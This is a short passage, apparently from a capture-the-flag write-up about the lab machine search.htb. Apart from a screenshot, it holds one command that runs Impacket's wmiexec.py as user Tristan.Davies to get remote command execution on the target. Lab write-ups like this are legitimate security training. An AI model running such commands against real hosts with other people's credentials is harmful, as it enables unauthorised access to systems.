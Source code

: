 ```bash
wmiexec.py search.htb/Tristan.Davies@10.10.11.129
```

<figure><img src="../../../.gitbook/assets/2605_vmware_jaUxPv54zG.png" alt="" width="427"><figcaption></figcaption></figure>
